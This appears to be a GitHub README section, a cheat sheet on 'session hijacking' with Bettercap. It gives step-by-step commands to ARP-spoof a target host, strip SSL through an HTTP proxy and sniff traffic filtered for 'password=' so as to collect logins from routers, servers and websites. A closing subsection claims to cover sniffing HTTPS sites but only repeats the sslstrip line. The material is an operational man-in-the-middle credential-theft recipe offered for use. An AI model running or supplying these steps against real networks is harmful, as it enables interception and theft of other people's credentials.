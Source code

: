 
## Session hijacking


### Bettercap

#### Using Bettercap to collects all http logins used by routers, servers, and websites that do not have SSL enabled

```sh
bettercap -iface eth0
```
-iface: Specifies the interface to bind to.


```sh
net.probe on
```
This module will send different types of probe packets to each IP in the current subnet for the net.recon module to detect them.


```sh
net.recon on
```
The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.


```sh
set http.proxy.sslstrip true
```
This module enables SSL stripping.


```sh
set arp.spoof.internal true
```
This module spoofs the local connections among computers of the internal network.


```sh
set arp.spoof.targets [Target IP]
```
This module spoofs the IP address of the target host.


```sh
http.proxy on
```
This module initiates http proxy.


```sh
arp.spoof on
```
This module initiates arp spoofing.


```sh
net.sniff on
```
This module is responsible for performing sniffing on the network.


```sh
set net.sniff.regexp '.*password=.+'
```
This module will only consider the packets sent with a payload matching the given regular expression (in this case, ‘.*password=.+’).


#### Using Bettercap to sniff network traffic from https-based websites


```sh
set http.proxy.sslstrip true
```


## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`